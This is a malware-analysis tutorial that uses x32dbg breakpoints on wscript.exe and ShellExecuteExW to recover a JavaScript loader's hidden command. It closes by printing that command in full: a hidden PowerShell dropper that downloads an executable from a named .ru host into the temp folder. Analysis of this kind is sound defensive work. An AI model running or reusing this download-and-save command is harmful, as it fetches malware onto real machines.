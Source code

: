 ***Overview*** 

Original idea credits go to Open Analysis Labs(OALabs). This will cover using a debugger to hook standard Windows API function calls used in JavaScript/VBScript loaders used in malware to analyze the original loader.  

***Tools***

- JavaScript Loader Sample.  `Hash: 7616fd825e223fb6f7bfdc0c025a2cf0196b8959cad69eda959c21a7d31e71d5`

- x32/64dbg

***Understanding wscript.exe***

Essentially when Windows runs a JavaScript/VBScript, which calls Windows API functions, it will use wscript.exe as a middle man between the script and the Windows API.

It looks something like the following:

`loader.js -> wscript.exe -> ShellExecuteA`

***Some common function calls used in cases like this are:***

WSASocketW  GetAddrInfoExW  WSASend 

WSAStarup    URLDownloadToFile  ShellExecuteA

ShellExecuteExW 

***Common DLLs:***

shell32.dll and ws2_32.dll

***Technical Begin***

Attach the debugger to wscript.exe located at `C:\Windows\SysWOW64\wscript.exe`

Provide the path to the script file so wscript.exe can execute it. You can do this in x32dbg by going to `File -> Change Command Line`

At this point, you should be ready to go. In the case of this loader, we need to set a breakpoint on shell32.dll. We can not set breakpoints yet on the function calls because they have not been imported yet hence why we need to break on the import of shell32.dll and then move forward on setting up hooks (Breakpoints) on the common function calls. 

Navigate to Breakpoints and in the Command section at the bottom, set a breakpoint on shell32.dll, and then you should see it enabled. 

![image](https://user-images.githubusercontent.com/95584654/158504637-ce708340-f9fd-4aa7-a937-fb755e69bf91.png)


At this point, you can start the debugger and continue until you hit the breakpoint to load the shell32.dll. Looking at the Breakpoint page, we can see that we have one hit on our breakpoint. Navigate to the Symbols page and click on shell32.dll. At this point, you can see all of the symbols. Filter for ShellExecuteExW and set a hook (Breakpoint) on it. 

![image](https://user-images.githubusercontent.com/95584654/158504684-d978c75f-423c-4929-8a4d-6a5892ae803c.png)


After setting the breakpoint, continue debugging and you should hit the breakpoint on ShellExecuteExW. We want to look at the parameters for the function that were pushed on the stack. Looking at the MSDN documentation for ShellExecuteExW. The only "parameter" is a pointer to the SHELLEXECUTEINFOW structure. 

Looking at the structure, the two main parameters we want to look at are LPCSTR lpVerb and LPCSTR lpFile. 

You can read about the structure here: https://docs.microsoft.com/en-us/windows/win32/api/shellapi/ns-shellapi-shellexecuteinfoa 

Since we hit our hook on the ShellExecuteExW, we can look at the stack to identify the parameters for the SHELLEXECUTEINFOW structure. 

![image](https://user-images.githubusercontent.com/95584654/158504728-ec02b60c-58f1-45de-8dcc-8f6419620306.png)


We can see the cleartext parameters used in the dropper by doing this. At this point, we can right-click on those lines and select

`Copy -> Copy Selected Lines`

It is calling PowerShell as we can see. Let's take a look at the cleaned up command below: 

```
cmd "/c start /b powershell -WindowStyle Hidden 
$http_request = New-Object -ComObject Msxml2.XMLHTTP;
$adodb = New-Object -ComObject ADODB.Stream;
$path = $env:temp + '\\1079.exe';
$http_request.open('GET', 'http://kanalmalakotv.ru/documenty/pax18.exe?rnd=12802', $false);
$http_request.send();
if($http_request.Status -eq \"200\"){$adodb.open();$adodb.type = 1;$adodb.write($http_request.responseBody);
$adodb.position = 0;
$adodb.savetofile($path);
$adodb.close();}
```
